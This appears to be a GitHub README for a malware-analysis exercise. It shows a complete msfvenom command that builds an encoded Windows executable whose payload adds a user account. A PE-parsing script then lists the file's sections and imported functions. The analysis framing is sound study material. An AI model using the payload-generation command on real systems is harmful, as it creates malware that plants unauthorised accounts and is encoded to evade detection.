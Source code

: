 # Malware-Analysis

Create Malicious exe file using Metasploit module (msfvenom) that adds a user "testuser321" and password "Test@321". Encode the file using encoder shikata_ga_nai with iteration 10 times as shown below.

root@kali64:~# msfvenom -p windows/adduser user=testuser1 pass=Test@321 -e x86/shikata_ga_nai -i 10 -f exe -o ~/testadd10.exe  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  

[-] No arch selected, selecting arch: x86 from the payload  
Found 1 compatible encoders  
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai  
x86/shikata_ga_nai succeeded with size 303 (iteration=0)
x86/shikata_ga_nai succeeded with size 330 (iteration=1)
....
x86/shikata_ga_nai succeeded with size 519 (iteration=8)
x86/shikata_ga_nai succeeded with size 546 (iteration=9)
x86/shikata_ga_nai chosen with final size 546
Payload size: 546 bytes
Final size of exe file: 73802 bytes
Saved as: /root/testadd10.exe
root@kali64:~# 

# Getting Started & Examples
The script will show the sections and IAT of the file as shown below    

root@kali64:~# python pe_test.py testadd10.exe \
('.text\x00\x00\x00', '0x1000', '0xa966', 45056)\
('.rdata\x00\x00', '0xc000', '0xfe6', 4096)\
('.data\x00\x00\x00', '0xd000', '0x705c', 16384)\
('.rsrc\x00\x00\x00', '0x15000', '0x7c8', 4096) 

MSVCRT.dll
	_iob
	_except_handler3
	__set_app_type
	__p__fmode
	__p__commode
	_adjust_fdiv
	__setusermatherr
	_initterm
     ..........
	strspn
	realloc
	__p__environ
	__p__wenviron
	_errno
	free
	strncmp
	strstr
	strncpy
	_ftol
	qsort
	fopen
	perror
	fclose
	fflush
	calloc
	malloc
	signal
	printf
	_isctype
	atoi
	exit
	__mb_cur_max
	_pctype
	strchr
	fprintf
	_controlfp
	_strdup
	_strnicmp
KERNEL32.dll
	PeekNamedPipe
	ReadFile
	WriteFile
	LoadLibraryA
	GetProcAddress
	GetVersionExA
	GetExitCodeProcess

